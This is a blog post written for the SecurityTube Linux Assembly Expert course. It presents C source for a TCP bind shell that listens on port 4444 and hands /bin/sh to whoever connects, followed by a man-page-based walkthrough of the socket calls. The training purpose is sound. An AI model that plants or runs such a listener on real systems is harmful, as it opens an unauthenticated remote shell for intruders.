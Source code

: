 ## Assignment 0x01: Create A Shell_Bind_TCP Shellcode
---
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main ()
{
    // creates a TCP socket
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    // creates an IP socket address struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    listen(sockfd, 0);

    int connfd = accept(sockfd, NULL, NULL);
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

## Analysis of Shell_Bind_TCP.c
First, a TCP socket is created using the `socket` function. As described in `man 2 socket`, the function creates an endpoint for communication and returns a file descriptor that refers to that endpoint.

`socket()` expects a domain argument, a type argument, and a protocol argument.

In this case, the domain argument `AF_INET` specifies the IPv4 communication protocol, the type argument `SOCK_STREAM` specifies the connection-based TCP standard for data exchange, and the protocol argument `0` indicates that the system should select the default protocol number based on the previously specified domain and protocol arguments.

Next, the `sockaddr_in` IP socket address struct is created which is used in the forthcoming `bind` method. As further explained in `man 7 ip`, an IP  socket address is defined as a combination of an IP interface address and a 16-bit (2 byte) port number.

The man page also states that `sin_family` is always set to `AF_INET`, that `sin_port` defines a port number in network byte order (provided through `htons()` in this example), and that `sin_addr` is the host IP address and should be assigned one of the `INADDR_*` values. 

`man 7 ip` states that `sin_family` is always set to `AF_INET` 

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

---
[Home](https://norrismw.github.io/SLAE)
